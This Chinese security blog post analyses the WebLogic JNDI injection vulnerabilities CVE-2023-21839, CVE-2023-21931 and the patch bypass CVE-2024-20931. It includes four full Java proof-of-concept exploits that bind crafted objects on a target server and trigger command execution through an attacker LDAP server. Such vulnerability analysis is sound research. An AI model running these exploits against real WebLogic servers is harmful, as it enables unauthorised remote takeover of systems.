# 奇安信攻防社区 - 从 CVE-2023-21839 到 CVE-2024-20931

### 从 CVE-2023-21839 到 CVE-2024-20931

某天刷手机看到微信公众号上发布的漏洞通告 "Oracle WebLogic Server JNDI 注入漏洞 (CVE-2024-20931)" 就联想到了 WebLogic 之前也存在过的 JNDI 注入漏洞，分别是 CVE-2023-21839 和 CVE-2023-21931。漏洞通告中说的是 CVE-2023-21839 的补丁绕过，于是就想看看，学习学习，也回顾一下前面两个漏洞

# 从 CVE-2023-21839 到 CVE-2024-20931

## 前言

某天刷手机看到微信公众号上发布的漏洞通告 "Oracle WebLogic Server JNDI 注入漏洞 (CVE-2024-20931)" 就联想到了 WebLogic 之前也存在过的 JNDI 注入漏洞，分别是 CVE-2023-21839 和 CVE-2023-21931。漏洞通告中说的是 CVE-2023-21839 的补丁绕过，于是就想看看绕过，学习学习，也回顾一下前面两个漏洞

## 远程绑定对象

Weblogic t3/iiop协议支持远程绑定对象bind到服务端，并且可以通过lookup查看

```java
// 创建远程对象  
MyRemoteObject remoteObject = new MyRemoteObject();  
// 获取上下文  
Hashtable env = new Hashtable();  
env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");  
env.put(Context.PROVIDER_URL, "t3://<server_ip>:<iiop_port>");  
Context ctx = new InitialContext(env);  
// 绑定对象到 JNDI  
ctx.rebind("myRemoteObject", remoteObject);  
// 远程查找对象  
MyRemoteObject remoteObj = (MyRemoteObject) ctx.lookup("myRemoteObject");
```

## CVE-2023-21839

### 漏洞描述

当远程对象继承自 OpaqueReference 时，lookup 查看远程对象，服务端会调用远程对象 getReferent 方法。weblogic.deployment.jms.ForeignOpaqueReference 继承自 OpaqueReference 并且实现了 getReferent 方法，并且存在 retVal = context.lookup(this.remoteJNDIName) 实现，故可以通过 rmi/ldap 远程协议进行远程命令执行。

### 漏洞分析

在 t3/iiop 协议解析查找对象的过程中会调用`weblogic.jndi.internal.WLNamingManager`的`getObjectInstance`方法



这个第一个参数`boundObject`是远程绑定的对象，如果这个对象继承或实现了`OpaqueReference`接口则会调用这个对象的`getReferent()`方法

漏洞利用的是 weblogic.deployment.jms.ForeignOpaqueReference 这个类

在这个类的`getReferent()`方法中实现了 JNDI 的初始化上下文和对象查询





如果可以控制这个类的`this.jndiEnvironment`和`this.remoteJNDIName`就能造成 JNDI 注入

这个可以通过反射修改

```java
ForeignOpaqueReference f = new ForeignOpaqueReference();  
Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
jndiEnvironment.setAccessible(true);  
jndiEnvironment.set(f, env2);  
Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");  
remoteJNDIName.setAccessible(true);  
String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
remoteJNDIName.set(f, ldap);
```

最后 poc 如下：

```php
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        // ForeignOpaqueReference 的 jndiEnvironment 和 remoteJNDIName 属性 ----------------- CVE-2023-21839  
        ForeignOpaqueReference f = new ForeignOpaqueReference();  
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
        jndiEnvironment.setAccessible(true);  
        jndiEnvironment.set(f, env2);  
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");  
        remoteJNDIName.setAccessible(true);  
        String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
        remoteJNDIName.set(f, ldap);  

        // 远程绑定 ForeignOpaqueReference 对象  
        c.rebind("sectest", f);  
        // lookup 查询 ForeignOpaqueReference 对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```

## CVE-2023-21931

### 漏洞分析

这个漏洞和 CVE-2023-21839 的差不多，区别在于`weblogic.jndi.internal.WLNamingManager`的`getObjectInstance`方法中



该漏洞走的是另外一个分支，如果绑定的对象继承了 LinkRef 类则进入这个分支

看到下面的`boundObject = ic.lookup(linkName)` , 如果能控制这个`linkName`就可以造成 JNDI 注入了

跟进`getLinkName()`


继续跟进 getContent()



可以看到这个 contents 是通过构造函数赋值的，是 LinkRef 构造函数中传入的`linkName`



所有这个 poc 很简单

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        //LinkRef 类使用  
        LinkRef f = new LinkRef("ldap://192.168.1.12:1389/Basic/Command/calc");           //CVE-2023-21931  

        // 远程绑定 ForeignOpaqueReference 对象  
        c.rebind("sectest", f);  

        // lookup 查询 ForeignOpaqueReference 对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```

## CVE-2024-20931

### 漏洞描述：

该漏洞为 CVE-2023-21839 的补丁绕过，未经身份验证的威胁者可通过 T3、IIOP 进行网络访问来破坏 Oracle WebLogic Server，成功利用该漏洞可能导致 Oracle WebLogic Server 被接管或未授权访问

受影响的支持版本包括：

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0

### 漏洞分析

在补丁中，对`weblogic.deployment.jms.ForeignOpaqueReference`这个利用类的 getReferent() 方法进行了些许修改：



这里对这个`java.naming.provider.url`进行了检查（验签），检查不过则报错处理，不再往下运行。可以将其置空则会不进入判断继续往下运行

往下还能看到对`remoteJNDIName`的处理



这个 JNDIUtils.isValidJndiScheme 方法似乎绕不过



根据网传的 POC，还是使用的是使用这个类

在这个补丁中还是能够正常的利用到这一步：

```java
context = new InitialContext(this.jndiEnvironment);
```

这个 this.jndiEnvironment 可控，漏洞就是在这一步中触发

思路是在指定 java.naming.factory.initial 进行初始化的时候进行利用，指定的`java.naming.factory.initial`为`oracle.jms.AQjmsInitialContextFactory`

在 oracle.jms.AQjmsInitialContextFactory 进行初始化的时候会 new 一个 AQjmsContext() 对象，其中这个 var1 参数是可控的



跟进查看



这个构造函数会将 Hashtable 中的`datasource`,保存到`this.dsLocation`中，然后调用`this.getDataSource()`



然后在这个方法中造成了 JNDI 注入，这样就不用再受前面说的`this.remoteJNDIName`的限制了

完整 POC:

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put("java.naming.factory.initial", "oracle.jms.AQjmsInitialContextFactory");  
        env2.put("datasource", "ldap://192.168.1.12:1389/Basic/Command/calc");  

        // ForeignOpaqueReference 的 jndiEnvironment 和 remoteJNDIName 属性  
        ForeignOpaqueReference f = new ForeignOpaqueReference();  
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
        jndiEnvironment.setAccessible(true);  
        jndiEnvironment.set(f, env2);  

        // 远程绑定 ForeignOpaqueReference 对象  
        c.rebind("glassy", f);  

        // lookup 查询 ForeignOpaqueReference 对象  
        try {  
            c.lookup("glassy");  
        } catch (Exception e) {  
        }  
    }  
}
```

## 其他思考

CVE-2024-20931 还是使用了和 CVE-2024-20931 一样的类`weblogic.deployment.jms.ForeignOpaqueReference`

回到`weblogic.jndi.internal.WLNamingManager`的`getObjectInstance`方法中


是不是还能找到其他实现了`OpaqueReference`接口的利用类

然后找到`weblogic.jndi.internal.ForeignOpaqueReference`

乍一看以为是前面的`weblogic.deployment.jms.ForeignOpaqueReference` ，但是这个类比它简单很多

查看该类的`getReferent()`

```java
public Object getReferent(Name name, Context ctx) throws NamingException {  
        InitialContext context;  
        if (this.jndiEnvironment == null) {  
            context = new InitialContext();  
        } else {  
            Hashtable properties = this.decrypt();  
            context = new InitialContext(properties);  
        }  

        Object retVal;  
        try {  
            retVal = context.lookup(this.remoteJNDIName);  
        } finally {  
            context.close();  
        }  

        return retVal;  
    }
```

完美！可用！

POC 如下：

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
//import weblogic.deployment.jms.ForeignOpaqueReference; //CVE-2023-21839+CVE-2024-20931  
import weblogic.jndi.internal.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
import com.rsa.jsafe.JSAFE_InvalidUseException;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
        ForeignOpaqueReference f = new ForeignOpaqueReference(ldap,env2);  

        // 远程绑定 ForeignOpaqueReference 对象  
        c.rebind("sectest", f);  
        // lookup 查询 ForeignOpaqueReference 对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```

在我以为自己找到了新方法的时候，才发现漏洞作者已经提到过了，只是没有放 POC

白高兴一场

我还找到这个类：`weblogic.application.naming.MessageDestinationReference`

在这个类的`lookupMessageDestination()`方法中也可以 JNDI：

```java
public Object lookupMessageDestination() throws NamingException {  
        InitialContext ic;  
        if (this.initialContextFactory == null) {  
            ic = new InitialContext();  
        } else {  
            Hashtable<String, String> env = new Hashtable();  
            env.put("java.naming.factory.initial", this.initialContextFactory);  
            if (null != this.providerURL) {  
                env.put("java.naming.provider.url", this.providerURL);  
            }  

            ic = new InitialContext(env);  
        }  

        return ic.lookup(this.jndiName);  
    }
```

整个调用过程如下，但是不知道能不能利用，需要慢慢尝试



经过一番尝试，不能利用这个调用过程，因为无法控制参数 replacerList (或许能控制，只是我太菜了)，进而无法让其调用到`weblogic.application.naming.MessageDestinationObjectFactory`的`getObjectInstance`中



## END
